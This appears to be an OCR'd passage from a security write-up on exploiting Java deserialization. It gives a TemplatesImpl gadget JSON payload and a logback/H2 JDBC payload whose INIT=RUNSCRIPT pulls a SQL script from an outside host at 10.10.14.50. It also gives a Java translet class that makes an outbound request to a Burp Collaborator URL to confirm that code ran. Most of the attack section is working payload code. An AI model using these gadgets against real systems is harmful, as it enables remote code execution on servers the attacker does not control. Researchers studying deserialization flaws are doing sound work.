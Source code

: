 
---


## Building An Exploit

```java
// Helpfully, the project gave us a starting point to build an effective exploit in one of their unit tests:

{'id': 124,
 'obj':[ 'com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl',
  {
    'transletBytecodes' : [ 'AAIAZQ==' ],
    'transletName' : 'a.b',
    'outputProperties' : { }
  }]
}
// This code leverages a well-known ‘gadget’ to create an object that will accept a compile Java object (via transletBytecodes) 
// and execute it as soon as outputProperties is accessed. 
// This creates a very simple, straightforward technique to exploit this vulnerability.


["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.14.50:9000/inject.sql'"}]

```


---


## Building The Payload

to prove that we have execution, and the route I went is to have the server issue a GET request to Burp Collaborator. This can be done easily with the following sample code:

```java
import java.io.*;
import java.net.*;

public class Exploit extends com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet {
  public Exploit() throws Exception {
    StringBuilder result = new StringBuilder();
    URL url = new URL("http://[your-url].burpcollaborator.net");
    HttpURLConnection conn = (HttpURLConnection) url.openConnection();
    conn.setRequestMethod("GET");
    BufferedReader rd = new BufferedReader(new InputStreamReader(conn.getInputStream()));
    String line;
    while ((line = rd.readLine()) != null) {
      result.append(line);
    }
    rd.close();
  }

  @Override
  public void transform(com.sun.org.apache.xalan.internal.xsltc.DOM document, com.sun.org.apache.xml.internal.dtm.DTMAxisIterator iterator, com.sun.org.apache.xml.internal.serializer.SerializationHandler handler) {
  }

  @Override
  public void transform(com.sun.org.apache.xalan.internal.xsltc.DOM document, com.sun.org.apache.xml.internal.serializer.SerializationHandler[] handler)  {
  }
```